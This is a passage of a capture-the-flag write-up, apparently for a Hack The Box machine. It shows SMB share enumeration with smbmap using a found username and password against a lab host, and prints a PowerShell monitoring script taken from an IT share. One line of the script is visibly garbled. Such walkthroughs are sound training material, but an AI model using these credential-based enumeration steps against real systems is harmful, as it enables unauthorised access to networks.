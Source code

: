 With valid credentials, I once again enumerated SMB to see if I had access to execute code or read any interesting shares:
```shell
┌──(kali@kali)-[~/htb/intelligence/]
└─$ smbmap -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -d intelligence.htb -H 10.10.10.248
[+] IP: 10.10.10.248:445        Name: intelligence.htb
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        IT                                                      READ ONLY
        NETLOGON                                                READ ONLY       Logon server share
        SYSVOL                                                  READ ONLY       Logon server share
        Users                                                   READ ONLY
```
I found that the controlled user had read access to the `IT` share, which contained an interesting script:
```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
This script appeared to be related to an earlier PDF found regarding an internal IT update: